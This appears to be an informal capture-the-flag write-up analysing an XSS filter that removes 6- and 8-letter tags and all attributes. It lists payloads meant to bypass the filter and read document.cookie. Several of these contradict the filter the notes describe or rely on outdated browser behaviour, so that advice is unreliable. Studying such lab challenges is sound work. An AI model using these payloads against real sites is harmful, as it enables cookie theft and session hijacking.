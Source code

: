 # Mutant XSS Challenge Analysis

## Challenge Overview

Mutant 
this is a peak only xss challenege that involves a web page that allows u to enter certain xss payload and if one payload let u enter the file where the flag is saved is also given which is stored in document.cookie file 

but for that we have to find a way to surpass the xss vulnerability as it is specifically constructed for this task we have to solve this by entering a payload that is not of 6 or 8 words which are the most common payloads used for xss vulnerability as script and other stuff

so here I have a opportunity to try several enteries using intruder and finding a xss vulneribilityy list that I can upload and let it scan the ouput so first I will try that only

so as far as I know I have to find a payload that surpass the set of script that stops xss and enter and somehow write a script that print everything written inside document.cookie file 

## Filter Mechanism Analysis

-User input (input) is taken from the URL and put into a template element.
-All elements whose tag names are 6 or 8 letters long (n.nodeName.length === 6 || n.nodeName.length === 8) are removed (e.g., script, iframe, object, applet).
-All attributes are removed from elements during a sanitization loop.
-The resulting HTML is inserted into the output and shown to the user (myoutput.innerHTML).

Your Next Steps
Try tags of odd lengths (e.g., 3, 4, 5, 7)—but no JS without attributes.
Check if the output appears in a different context (e.g., inside a <script>, <style>, or as an attribute). If so, context-breaking or template escapes could work.
Try <template>-specific quirks—in rare cases, browsers misparse <template> contents, but this is extremely advanced.

## Attack Surface Analysis

### Filter Analysis
- **Blocked**: Tags with 6 or 8 characters (like `script`, `iframe`, `object`, `applet`)
- **Blocked**: All attributes are stripped
- **Context**: Input goes into a `<template>` element, then innerHTML

## Potential Bypass Vectors

### 1. Short Tag Names (3-5, 7+ characters)
Since 6 and 8 character tags are blocked, try:
- `<img>` (3 chars) - but needs attributes for XSS
- `<svg>` (3 chars) - can contain script without attributes
- `<math>` (4 chars) - MathML context
- `<style>` (5 chars) - CSS injection
- `<details>` (7 chars) - HTML5 element

### 2. Context-Breaking Payloads
If the filtered content is inserted into different contexts:

**For `<template>` context breaking:**
```html
</template><svg onload=alert(document.cookie)>
```

**For script context (if template content is later used in JS):**
```javascript
';alert(document.cookie);//
```

### 3. Attribute-Free XSS Vectors

**SVG with embedded script:**
```html
<svg><script>alert(document.cookie)</script></svg>
```

**Style-based injection:**
```html
<style>@import'javascript:alert(document.cookie)'</style>
```

**Math element with script:**
```html
<math><script>alert(document.cookie)</script></math>
```

### 4. Template-Specific Exploitation
Since input goes into `<template>`:

**Template escape:**
```html
</template><img src=x onerror=alert(document.cookie)>
```

**Template with nested content:**
```html
<template><svg><script>alert(document.cookie)</script></svg></template>
```

## Recommended Testing Approach

1. **Test basic context breaking first:**
   - `</template><svg onload=alert(1)>`
   - `</template><img src=x onerror=alert(1)>`

2. **Try attribute-free vectors:**
   - `<svg><script>alert(1)</script></svg>`
   - `<style>body{background:url('javascript:alert(1)')}</style>`

3. **Test odd-length tags:**
   - `<embed src=javascript:alert(1)>`
   - `<blink>` or other deprecated tags

4. **Check for double-decoding or encoding bypasses:**
   - HTML entities: `&lt;script&gt;`
   - URL encoding: `%3Cscript%3E`

## Key Attack Strategy

The key is that you need to either:
1. Break out of the template context entirely
2. Use tags that can execute JavaScript without attributes
3. Find a way to inject into a different parsing context

## Goal

The ultimate goal is to create a payload that bypasses the filter and executes JavaScript to access and display the contents of `document.cookie` where the flag is stored.
